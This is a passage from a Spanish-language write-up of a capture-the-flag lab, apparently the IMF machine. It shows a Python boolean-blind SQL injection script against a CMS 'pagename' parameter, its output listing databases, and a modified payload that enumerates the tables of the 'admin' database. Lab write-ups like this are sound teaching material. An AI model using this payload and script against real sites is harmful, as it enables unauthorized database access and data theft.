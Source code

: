 ```python
                    p1.status(database_name)
                    break
        if database_name == "":
            log.info("OK")
            exit(0)
        databases.append(database_name)

    for dbname in databases:
        print("[i] " + dbname)

if __name__ == "__main__":
    signal.signal(signal.SIGINT,def_handler)
    sqli()
```

Este es el output.
```console
python3 sqli.py
[*] Target is vulnerable
[▖] 0 Database name: information_schema
[/] 1 Database name: admin
[O] 2 Database name: mysql
[>] 3 Database name: performance_schema
[o] 4 Database name: sys
[d] 5 Database name
[*] OK
```

### Tweaking the script to get the tables
Ahora que tenemos las bases de datos, vamos a modificar un poco el script para enumerar ahora las tablas de la base de datos que nos interesa, en este caso, obviamente nos gusta la base de datos llamada `admin`.

Lo único que tenemos que modificar es la variable `BASE_URL` estableciendo la consulta que queremos hacer ahora la cual va a tener los mismos parámetros, el `OFFSET`, `POSITION` y `REPLACE` por lo cual no tenemos que cambiar nada del script.

Para enumerar las tablas de una base de datos, en MySQL existe `information_schema.tables`, [podemos consultar la documentación](https://dev.mysql.com/doc/refman/8.4/en/information-schema.html), podemos ver que la columna `table_schema` nos reporta el nombre de la base de datos a la que pertenece la tabla, por lo cual podemos igualar esto a `admin` para poder enumerar utilizando el mismo método (limit y offset) todas las tablas de `admin`.

Cambiamos `BASE_URL`
```python
BASE_URL = "http://imf.local/imfadministrator/cms.php?pagename=disavowlist' or substring((select table_name from information_schema.tables where table_schema = 'admin' limit <OFFSET>,1),<POSITION>,1)='<REPLACE>"
```

Si lanzamos el script ahora, vemos una única tabla llamada `pages`.
```console
python3 sqli.py
[*] Target is vulnerable
[↗] 0 Database name: pages
[◣] 1 Database name
[*] OK
```
